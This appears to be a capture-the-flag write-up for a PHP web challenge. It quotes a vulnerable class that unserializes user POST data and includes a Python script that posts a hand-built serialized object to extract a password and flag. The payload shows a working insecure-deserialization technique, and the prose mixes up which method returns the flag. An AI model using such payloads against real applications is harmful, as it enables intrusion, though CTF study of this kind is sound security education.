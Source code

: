 # Serialize (Web)

This challenge deserves highlighting, because it required absolutely no guessing.

We have to deal with the following PHP code:

```php
<?php


class MagicCode {
    private $command;
    private $commandArgs;

    public function __construct($command, $commandArgs) {
        $this->command = $command;
        $this->commandArgs = $commandArgs;
    }

    function __wakeup() {
        foreach($this->commandArgs as $k => $v) {
            $this->commandArgs[$k] = $this->__clearArgs($v);
        }
    }

    function __clearArgs($v) {
        return trim($v);
    }

    function __die($text) {
        die(json_encode(array("text" => $text)));
    }

    function __destruct() {
        if (in_array($this->command, array("print", "showFlag", "showSource"))) {
            @call_user_func_array(array($this, "__" . $this->command), $this->commandArgs);
        } else {
            $this->__die("What do you do?");
        }
    }

    function __print() {
        global $PASSWORD;
        list($showPassword) = func_get_args();
        if ($showPassword == $this->__pack()) {
            $this->__die($PASSWORD);
        }
        $this->__die("Nothing to do. Just passing by.");
    }

    function __pack() {
        return pack("H*", "766676433466787856624046542574234161323453457431525177336325");
    }

    function __showFlag() {
        global $PASSWORD;
        global $FLAG;
        list($password) = func_get_args();
        if ($password === $PASSWORD) {
            $this->__die($FLAG);
        }
        $this->__die("Try again.");
    }

    function __showSource() {
        highlight_file(__FILE__);
    }
}
```

In the last line of code (that I somehow didn't copy), the POST data sent by user is base64 decoded and unserialized.

It's obvious what to do here: we need to craft a MagicCode object.
The __destruct() method will be called by the runtime, and we will get a limited RCE on the server. In fact, it's enough to change `command` variable to `showFlag` to get "password" and `showSource` to get the flag.

Crafting PHP serialized payloads is relatively easy, because the serialization format is human readable and not very complicated. I crafted the following by hand (although in retrospect, I should've just used the code provided and serialize() function):

```python
import requests

payload = '''O:9:"MagicCode":2:{s:18:"\x00MagicCode\x00command";s:5:"print";s:22:"\x00MagicCode\x00commandArgs";a:1:{i:0;s:30:"vfvC4fxxVb@FT%t#Aa24SEt1RQw3c%";}}'''

r = requests.post("https://magic-code.scs.ctf/", verify=False, data={"data": payload.encode('base64')})

print r.content
```

And this was enough to get the flag.